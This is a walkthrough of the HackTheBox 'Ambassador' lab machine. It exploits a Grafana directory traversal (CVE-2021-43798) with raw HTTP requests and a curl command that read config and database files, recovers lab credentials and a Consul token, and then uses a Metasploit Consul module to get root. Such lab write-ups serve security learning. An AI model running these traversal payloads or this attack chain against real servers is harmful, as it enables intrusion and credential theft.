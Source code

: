 ```yaml
---
title: Ambassador
date: 2023-01-08 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [grafana, curl, devops, sqlite, mysql, linux, cve-2021-43798, consul, git]
---
```


- `sudo nmap -p- -T4 10.10.11.183 -vvvv`

Ports open: 22,80,3000,3006

- `sudo nmap -p22,80,3000,3306 -sC -sV -O 10.10.11.183 -vvvv`

## Port 80

Nothing here I ran feroxbuster with medium raft directories but we do get a note

We get a note

- Use the **developer** account to SSH, DevOps will give you the password.

## Port 3000 

Here we find a Grafana instance. Grafana is an open-source monitoring playform that allows you to alert and querty and visualize different data sourced, like databases. The key must be here? running feroxbuster yeild a shitload of nothing, checking the source of the grafana page and searching for "version" we find the Grafana version 8.2.0.

- `https://www.exploit-db.com/exploits/50581` - CVE-2021-43798 - Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files. The exploit works by being allowed to use the plugins in the api then directory traversal to read whatever you are allowed to ready on the system.

This script will use the exploit by doing all the work allowing us to view files use we can use this to read the grafana config files located at `/etc/grafana/grafana.ini` then use those credentials to login to grafana. 

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

We can also exploit this manually be sending a burpsuite request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

Okay so the exploit above doesnt allow us to really do anything other than read the files...Can we use a curl request to download the grafana.db On macOS and Linux, the default location is `/var/lib/grafana/grafana.db`.

- Burpsuite repeater request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

This pulls up a database

we can download this with curl

- `curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

And open in `sqlite3`

we can use `.tables` to see all tables then `SELECT * FROM user;` where we can see admin credentials.

1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-01-09 08:20:50|0

`dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069`

I thought this went soemwhere but after a ahwile of nothing went back in and checked the data_source table. I really, really, should have looked at all of the tables.

`2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-08 22:39:14|0|{}|1|uKewFgM4z`

- `mysql -u grafana -h ambassador.htb -p`

```
SHOW DATABASES;
SHOW tables;
SELECT * FROM USERS;
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

All of the other databases we dont have access to.

- `echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d` gives us `anEnglishManInNewYork027468`

and we are into the system!

## Privilege Escalation 


r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

we find some git files here! this being a devops server probably the way to our flag

notice there is some stuff happening inside of /opt/ specifically a django server.

running `netstat -tulp` we can see there is some addesses that we are only able to access on localhost. in order to access these we need to setup a port-forward and can do this with via ssh.

```
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -         
```

the consul service is only available on 8500 remotely

- `ssh -L 8500:localhost:8500 developer@ambassador.htb`

After creating a tunnel and checking out the 830x ports and not getting anywhere, I think his more to do with the git located here thought. So going to look into the git.

- `git log` shows git commit hisotry
- `git show` check the git commits in the history

checking the git commits so come accross a token of some sort `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55` we find `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWO`

checking metasploit there are some RCEs `multi/misc/consul_service_exec` 

using this exploit its pretty easy to get root with the ACL token rhosts set to localhost (because we forwarded the port) and the just the LHOST and LPORT.

cd to root for the last flag.
